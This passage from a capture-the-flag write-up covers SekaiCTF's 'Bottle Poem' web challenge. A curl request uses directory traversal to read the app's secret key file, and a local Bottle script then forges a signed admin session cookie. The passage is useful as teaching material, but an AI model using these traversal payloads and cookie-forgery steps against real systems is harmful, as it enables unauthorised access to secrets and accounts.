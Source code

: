We can see that the cookie we're assigned looks like some weird version of base64, and decoding it just gives us junk. It appears that the cookies are signed, and using the `app.py` file, we know the secret is stored in `config/secret.py`. We can use our directory traversal to get that file too.

```shell
kali@transistor:~/ctf/sekaictf/web_bottle_poem$ curl 'http://bottle-poem.ctf.sekai.team/show?id=../../../app/config/secret.py' --output -
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

From here, we can just host a slightly modified version of the webapp locally, signing our cookies with this new secret, and copying and pasting the cookie from our local instance into the remote instance. Maybe the admin portal has something for us.

> Credit to another teammate [Kreshnik](https://twitter.com/kr3shn1k) for actually putting the pieces together here, mostly just catching the minor errors we made.

We run this locally and grab the cookie from it.
```python
from bottle import route, run, template, request, response, error
import os

SECRET = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

@route("/test")
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=SECRET)
    return "cookie :)"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8001)
```
```shell
kali@transistor:~/ctf/sekaictf/web_bottle_poem/solve$ curl -vvv localhost:8001/test
*   Trying 127.0.0.1:8001...
* Connected to localhost (127.0.0.1) port 8001 (#0)
> GET /test HTTP/1.1
> Host: localhost:8001
> User-Agent: curl/7.85.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Date: Mon, 03 Oct 2022 18:19:35 GMT
< Server: WSGIServer/0.2 CPython/3.10.7
< Content-Length: 7
< Content-Type: text/html; charset=UTF-8
< Set-Cookie: name="!rsOwvUb6jllVHQVOPlZv5w==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg=="
< 
* Closing connection 0
cookie :)
```
